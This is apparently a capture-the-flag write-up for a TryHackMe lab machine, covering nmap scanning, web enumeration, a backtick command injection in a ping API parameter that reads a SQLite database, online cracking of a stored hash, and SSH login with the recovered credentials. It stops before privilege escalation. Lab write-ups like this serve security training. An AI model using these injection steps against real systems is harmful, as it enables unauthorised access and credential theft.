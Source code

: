 # NMAP scan

First of all we need to execute a NMAP scan:
```bash
nmap -p- -A -T4 HOST_IP
```
- ![[Pasted image 20250118164316.png]]


# Enumerating the website
We can see that there is an `apache` sever so we start to enumerate the website:
- on port `8081` that is a `Node,js Express Framework`
- on port `31331` that is a `apache` server


So we visit both:
- ![[Pasted image 20250118164510.png]]
- ![[Pasted image 20250118164521.png]]


We use `Burp suite` to analyze the website:
- ![[Pasted image 20250118164610.png]]

But nothing interesting



So we try to access to `robots.txt` if it exists on port `31331`:
- ![[Pasted image 20250118164705.png]]

We found this interesting file and we look at it:
- ![[Pasted image 20250118164739.png]]

So we start to enumerate the information.


On `/partners.html` we can see a login page (port `31331`):
- ![[Pasted image 20250118164813.png]]

We look at the source code and we can notice a `api.js`:
- ![[Pasted image 20250118164907.png]]

We click on it and we start to look for info:
- ![[Pasted image 20250118165107.png]]
- it does a ping to the `window.location.hostname`



So basically we try to see what it does, we know that the IP of the API is `10.10.186.101` so we search for:
```bash
http://10.10.186.101:8081/ping?ip=127.0.0.1
```
- in `localhost` just to see
- ![[Pasted image 20250118165305.png]]

So we are doing a ping and so `code execution`...


So we can try to inject using the backticks:
- this because everytime a backtick is used what inside is executed first
- so if we have ping \`ls\` the `ls` is executed before the ping

So we try to inject:
```bash
http://10.10.186.101:8081/ping?ip= `ls`
```
- ![[Pasted image 20250118165822.png]]
- we gain a result


So we can try to `cat` this file:
```
http://10.10.186.101:8081/ping?ip= `cat utech.db.sqlite`
```
- ![[Pasted image 20250118165932.png]]

So we copy the hash of `r00t` and we go on crack station [https://crackstation.net/](https://crackstation.net/)
- ![[Pasted image 20250118170020.png]]
We cracked the `r00t` hash that is `n100906` password.



# ssh access on the victim

So now we can try to access usint `r00t:n100906`:
```bash
ssh r00t@10.10.186.101 (TryHackMe IP)
```
- ![[Pasted image 20250118170227.png]]

We got a low level access!


Now we need to escalate.

